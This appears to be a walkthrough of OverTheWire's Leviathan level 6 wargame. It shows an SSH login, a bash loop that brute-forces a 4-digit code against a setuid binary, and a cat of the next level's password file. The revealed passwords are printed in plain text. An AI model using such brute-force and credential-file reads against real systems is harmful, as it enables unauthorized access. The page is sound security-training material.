 # Leviathan Level 6 → Level 7
There is no information for this level, intentionally.

##  Solution
```
┌──(kali㉿kali)-[~]
└─$ ssh -p 2223 leviathan6@leviathan.labs.overthewire.org
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
leviathan6@leviathan.labs.overthewire.org's password: UgaoFee4li
```
Linux leviathan 4.18.12 x86_64 GNU/Linux
```              
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
```               
              
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!

  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!
```
leviathan6@leviathan:~$ ls -al                                      #list the contents of the homedirectory of leviathan6
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6    #there is a setuid file
-rw-r--r--  1 root       root        675 May 15  2017 .profile 

leviathan6@leviathan:~$ ./leviathan6                                #execute the file                     
usage: ./leviathan6 <4 digit code>                                  #it requires a 4 digit code
                                                                    #write a script for a brute force

leviathan6@leviathan:~$ mkdir /tmp/myl6                             #create a directory myl6 under temp

leviathan6@leviathan:~$ cd /tmp/myl6                                #navigate to myl6 directory

leviathan6@leviathan:/tmp/myl6$ vim brute.sh                        #create a file brute.sh and open it using vim editor
```
### Note1: In the vim editor, press i and type the following script. After typing the script, press Esc to enter into command mode and run :wq to save and exit from the editor.                                                                    
```
#!/bin/bash

for a in {0000..9999}                 #generates 4 digit codes from 0000 to 9999
do
~/leviathan6 $a                       #appends this generated code with the leviathan6 file from the homedirectory in every iteration
done
```

Back to the terminal.
```
leviathan6@leviathan:/tmp/myl6$ chmod +x brute.sh                   #provide execute access for the brute.sh file

leviathan6@leviathan:/tmp/myl6$ ./brute.sh                          #execute the file brute.sh

Wrong                                                               
.
.
.
Wrong
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory                   #after sometime, a command prompt ($) will appear

$ whoami                                                            #to know the user
leviathan7

$ cat /etc/leviathan_pass/leviathan7                                #read the password file of leviathan7
ahy7MaeBo9                                                          #leviathan7 password
^C                                                                  #kill the process

leviathan6@leviathan:/tmp/myl6$ exit                                #logout of leviathan.labs.overthewire.org
logout
Connection to leviathan.labs.overthewire.org closed.
```

#### Command-line help text
```
mkdir  -> make directories
cd     -> change the working directory
cat    -> concatenate files and print on the standard output
whoami -> print effective userid

ls      -> list directory contents
-a      -> do not ignore entries starting with .
-l      -> use a long listing format

chmod  -> change file mode bits
+x     -> execute mode
```

#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```





